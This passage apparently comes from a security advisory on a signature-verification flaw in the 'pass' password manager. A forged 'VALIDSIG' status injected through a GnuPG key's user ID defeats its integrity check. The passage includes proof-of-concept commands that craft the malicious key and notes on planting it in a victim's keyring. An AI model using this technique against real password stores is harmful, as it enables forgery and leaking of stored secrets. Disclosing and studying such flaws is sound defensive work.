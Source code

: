 ### Root cause

The attack works due to the incomplete way `pass` matches status
messages with regular expressions. We find synergy between two
unrelated weak design choices in GnuPG and `pass`:

* `pass` matches the GnuPG status message `VALIDSIG` (indicating a
  valid signature and corresponding key details) *at any position
  within a line in the output.*
* GnuPG emits the primary user ID of a signing key at the end of a
  `GOODSIG` status line, *without escaping whitespace*.

This enables us to **inject a GnuPG `VALIDSIG` status line into
`pass` by writing it into the primary user ID of a signing key**.

## Proof of concept: Information leak

Here is the run down of an attack. I am omitting all steps where the
local and remote files are synchronized, and just assume the attacker
has local write access to the password store (but not to any other
files).

### Setup

This is how the user might set up his password store with integrity
protection.

```
$ export PASSWORD_STORE_SIGNING_KEY=3CB0E84416AD52F7E186541888B08D5A57B62140
$ pass init $PASSWORD_STORE_SIGNING_KEY
mkdir: created directory '/home/marcus/.password-store/'
Password store initialized for 3CB0E84416AD52F7E186541888B08D5A57B62140
```

### Preparing the attack

The attacker must now craft a signing key with a special primary user id:

```
$ gpg --quick-gen-key "[GNUPG:] VALIDSIG $PASSWORD_STORE_SIGNING_KEY x $PASSWORD_STORE_SIGNING_KEY"
...
pub   rsa2048 2018-06-13 [SC] [expires: 2020-06-12]
      955A3B4AE2519B0D2F44F4BED4691C8CB5B50C21
uid                      [GNUPG:] VALIDSIG 3CB0E84416AD52F7E186541888B08D5A57B62140 x 3CB0E84416AD52F7E186541888B08D5A57B62140
sub   rsa2048 2018-06-13 [E]
...
$ export ATTACKER_KEY=955A3B4AE2519B0D2F44F4BED4691C8CB5B50C21
```

This signing key must be injected into the target's keyring. Here are two possibilities:

* If the attacker has write access to the target's public keyring (in
  `.gnupg/pubring.kbx` or `.gnupg/pubring.gpg`), for example through
  the same way he has write access to the password store, then the
  attacker can simply import the key into the keyring.
* Otherwise, there are several other methods to inject keys into
  public keyrings, which I have outlined
  [here](https://neopg.io/blog/enigmail-signature-spoof/#injecting-malicious-signing-keys-into-the-victim-s-keyring).
